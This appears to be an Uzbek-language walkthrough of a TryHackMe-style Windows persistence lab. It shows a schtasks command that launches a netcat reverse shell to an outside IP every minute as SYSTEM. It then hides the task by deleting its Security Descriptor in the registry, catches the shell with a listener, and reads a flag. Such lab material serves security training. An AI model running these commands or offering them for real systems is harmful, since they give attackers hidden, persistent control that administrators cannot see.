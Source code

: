 ### 🎯 **Persistence uchun Scheduled Task (rejalashtirilgan vazifa) yaratish**

Windows tizimlarida payload (zararli dastur yoki buyruq) ni qayta-qayta ishga tushirish uchun rejalashtirilgan vazifalardan foydalanish mumkin. Bu usul tizimda **uzoq muddatli yashirin mavjudlik (persistence)** yaratish uchun ishlatiladi.

---

### 🧰 **1. Task Scheduler yordamida Payload ishga tushirish**

Windows’ning o‘zida mavjud bo‘lgan **Task Scheduler** eng keng tarqalgan rejalashtiruvchi vositadir. Bu vosita yordamida vazifani:

* Aniq vaqtda ishga tushirish
* Doimiy ravishda takrorlash
* Tizimda maxsus voqealar yuz berganda ishga tushirish
  kabi holatlar uchun sozlash mumkin.

**Buyruq satridan** foydalanib rejalashtirilgan vazifalarni boshqarish uchun `schtasks` buyrug‘i mavjud.

---

### 📌 **Misol: Har daqiqada reverse shell ishga tushiruvchi vazifa yaratish**

```cmd
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.8.24.135 4444 " /ru SYSTEM
```

**Tushuntirish:**

* `/sc minute` – har daqiqada ishga tushirilsin
* `/mo 1` – har 1 daqiqada
* `/tn THM-TaskBackdoor` – vazifa nomi `THM-TaskBackdoor`
* `/tr "c:\tools\nc64 -e cmd.exe 10.8.24.135 4444"` – ishga tushiriladigan buyruq: bu yerda `nc64` orqali `cmd.exe` ni masofadagi hujumchiga ulaydi (reverse shell)
* `/ru SYSTEM` – SYSTEM huquqlari bilan ishga tushadi

✅ Bu buyruq muvaffaqiyatli bajarilgach, vazifa har daqiqada reverse shell yuboradi.

---

### ✅ **Yaratilgan vazifani tekshirish:**

```cmd
C:\> schtasks /query /tn thm-taskbackdoor
```

Chiqariladi:

```
Folder: \
TaskName             Next Run Time         Status
===================  ====================  ==========
thm-taskbackdoor     5/25/2022 8:08:00 AM  Ready
```

---

### 🕵️ **2. Vazifani yashirish – ko‘zga ko‘rinmas qilish**

Endi esa foydalanuvchi rejalashtirilgan vazifalarni ko‘rganda, bu backdoor ko‘rinib qolmasligi uchun uni **yashirish** kerak.

Buni **Security Descriptor (SD)** ni o‘chirish orqali amalga oshiramiz. SD – bu rejalashtirilgan vazifaning kimlar ko‘rishi va o‘zgartirishi mumkinligini belgilovchi **ACL (Access Control List)** hisoblanadi. Uni o‘chirsangiz – hech kim, hatto administrator ham bu vazifani ko‘ra olmaydi.

SD Windows reestrida quyidagi yo‘lda joylashgan:

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
```

Har bir vazifaning SD qiymatini faqat **SYSTEM huquqi** bilan o‘chirish mumkin.

---

### 🛠 **SD ni o‘chirish:**

1. **`regedit` dasturini SYSTEM huquqi bilan ochamiz**:

```cmd
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

2. Ochilgan **Regedit** orqali quyidagi yo‘lga o‘tamiz:

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\THM-TaskBackdoor
```

3. O‘sha yerda `SD` degan qiymatni o‘chiramiz.

---

### 🔍 **Endi vazifa yashirin bo‘lib qoladi:**

```cmd
C:\> schtasks /query /tn thm-taskbackdoor
```

Chiqariladi:

```
ERROR: The system cannot find the file specified.
```

➡️ Vazifa hali mavjud, ammo ko‘rinmaydi!

---

### 🐚 **Reverse Shell ni tekshirish:**

Hujumchi mashinasida listener ishga tushuramiz:

```bash
user@AttackBox$ nc -lvp 4444
```

Bir daqiqa ichida `cmd.exe` bilan ulanish bo‘ladi (reverse shell).

---

### 🎯 **Vazifa: flag9 olish**

Shell ichida quyidagi buyruqni bajaramiz:

```cmd
C:\> C:\flags\flag9.exe
```

Bu flagni konsolga chiqaradi.
